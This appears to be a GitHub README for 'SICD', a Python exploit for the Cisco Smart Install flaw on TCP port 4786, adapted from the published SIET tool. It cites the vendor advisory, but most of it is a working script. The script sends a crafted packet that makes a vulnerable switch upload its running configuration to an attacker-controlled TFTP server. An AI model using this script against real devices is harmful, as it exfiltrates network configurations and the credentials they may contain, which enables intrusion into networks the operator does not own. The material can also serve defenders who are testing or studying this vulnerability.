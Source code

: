 # SICD
Cisco Smart Install Exploit

Cisco Smart Install is accessible through TCP port 4786 and is vulnerable to attack.  The vendor advisory can be read here

https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20170214-smi

Existing exploits, e.g. Sab0tag3d SIET, have been published to exploit this vulnerability.

https://github.com/Sab0tag3d/SIET

This exploit (SICD - Smart Install Config Dumper) was adapted from the work of Sab0tag3d specifically for obtaining the running config from a vulnerable Cisco device.

```python
#!/usr/bin/python
# Smart Install Config Dumper

import socket
import time
import sys

# Vulnerable Cisco device
victim_ip = '10.1.2.3'
# IP of your TFTP server
attack_ip = '192.168.2.200'

if(len(sys.argv) == 3):
   attack_ip = sys.argv[1]
   victim_ip = sys.argv[2]

conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
conn.settimeout(5)
try:
   conn.connect((victim_ip, 4786))

#   c1 = 'copy system:running-config flash:/config.text'
#   c2 = 'copy flash:/config.text tftp://' + attack_ip + '/' + victim_ip + '.conf'
#   c3 = ''
#   sTcp = '0' * 7 + '1' + '0' * 7 + '1' + '0' * 7 + '800000' + '40800010014' + '0' * 7 + '10' + '0' * 7 + 'fc994737866' + '0' * 7 + '0303f4'
#   sTcp = sTcp + c1.encode('hex') + '00' * (336 - len(c1))
#   sTcp = sTcp + c2.encode('hex') + '00' * (336 - len(c2))
#   sTcp = sTcp + c3.encode('hex') + '00' * (336 - len(c3))
   c1 = 'copy system:running-config tftp://' + attack_ip + '/' + victim_ip + '.conf'
   sTcp = '0' * 7 + '1' + '0' * 7 + '1' + '0' * 7 + '800000' + '40800010014' + '0' * 7 + '10' + '0' * 7 + 'fc994737866' + '0' * 7 + '0303f4'
   sTcp = sTcp + c1.encode('hex') + '00' * (336 - len(c1))
   sTcp = sTcp + '00' * 336 + '00' * 336
   
   print('[INFO]: Sending config dumper request to %s ' % victim_ip)
   conn.send(sTcp.decode('hex'))
   conn.close()
   print('[INFO]: Waiting 30 seconds for TFTP upload completion')
   time.sleep(30)

except socket.error, exc:
   print "Socket error : %s" % exc
```
